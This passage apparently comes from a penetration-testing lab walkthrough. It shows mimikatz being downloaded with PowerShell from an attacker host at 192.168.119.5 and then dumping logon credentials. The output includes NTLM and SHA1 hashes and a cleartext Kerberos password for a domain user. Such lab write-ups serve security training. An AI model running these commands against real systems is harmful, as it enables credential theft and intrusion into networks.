 ```powershell
Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\Administrator> 
```
{% endcode %}

Transferring mimikatz and dumping credentials:

{% code overflow="wrap" %}
```powershell
PS C:\Users\Administrator> iwr -uri http://192.168.119.5:8000/mimikatz.exe -Outfile mimikatz.exe

PS C:\Users\Administrator> .\mimikatz.exe
.\mimi.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
...
Authentication Id : 0 ; 253683 (00000000:0003def3)
Session           : Interactive from 1
User Name         : beccy
Domain            : BEYOND
Logon Server      : DCSRV1
Logon Time        : 3/8/2023 4:50:32 AM
SID               : S-1-5-21-1104084343-2915547075-2081307249-1108
        msv :
         [00000003] Primary
         * Username : beccy
         * Domain   : BEYOND
         * NTLM     : f0397ec5af49971f6efbdb07877046b3
         * SHA1     : 2d878614fb421517452fd99a3e2c52dee443c8cc
         * DPAPI    : 4aea2aa4fa4955d5093d5f14aa007c56
        tspkg :
        wdigest :
         * Username : beccy
         * Domain   : BEYOND
         * Password : (null)
        kerberos :
         * Username : beccy
         * Domain   : BEYOND.COM
         * Password : NiftyTopekaDevolve6655!#!
...
```
{% endcode %}
